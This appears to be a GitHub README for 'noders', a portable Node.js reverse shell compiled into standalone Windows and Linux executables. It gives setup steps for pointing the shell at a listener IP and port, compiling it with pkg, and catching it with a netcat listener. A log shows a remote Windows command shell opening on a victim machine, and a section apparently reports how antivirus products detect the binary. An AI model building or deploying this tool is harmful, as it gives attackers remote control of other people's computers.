 # noders

portable node.js reverse shell using https://github.com/zeit/pkg 

**Usage**

- Update noders.js source listener ip,port, binary (cmd.exe, /bin/sh, etc).
- Compile using pkg to target platform https://github.com/zeit/pkg#targets

Setup
```
node@kali:/opt/noders# npm install -g pkg
root@kali:/opt/noders# pkg -t win noders.js
> pkg@4.4.0
> Fetching base Node.js binaries to PKG_CACHE_PATH
  fetched-v10.15.3-win-x64     [====================] 100%
  fetched-v10.15.3-linux-x64   [====================] 100%
root@kali:/opt/noders# ls
noders.exe  noders.js
```
Listener
```
root@kali:~# nc -lvp 8080
listening on [any] 8080 ...
192.168.116.173: inverse host lookup failed: Unknown host
connect to [192.168.116.200] from (UNKNOWN) [192.168.116.173] 50053
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\IEUser\Desktop>whoami
whoami
msedgewin10\ieuser

```

**AV Detection**

<img width="1317" alt="Screenshot 2019-11-23 at 21 30 06 2" src="https://user-images.githubusercontent.com/56988989/69485670-9e015180-0e3a-11ea-95c4-5a9b2dd88f24.png">

**Limitations**

Portable binary size is at least 30MB. 
